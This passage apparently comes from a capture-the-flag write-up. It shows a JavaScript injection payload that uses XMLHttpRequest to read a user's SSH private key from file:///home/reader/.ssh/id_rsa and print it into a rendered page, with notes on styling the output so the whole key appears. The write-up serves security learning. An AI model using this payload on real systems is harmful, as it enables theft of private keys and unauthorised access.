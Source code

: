 ![](/assets/images/book13.png)

Hmm...There is the `ssh` service running on the machine and there is a user called `reader` with the home directory at `/home/reader`. Lets see if we can find any private keys in `/home/reader/.ssh`, which are typically named as `id_rsa`.

{% highlight html %}
<script>x=new XMLHttpRequest;x.onload=function(){document.write('<script>x=new XMLHttpRequest;x.onload=function(){document.write('<p style="width:100%; word-wrap: break-word;">' + this.responseText + '</p>')};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
{% endhighlight %}

Notice that I had to specify width of `100%` and `break-word`. This is because the key was too long and parts of the key will be missed out if I didn't.
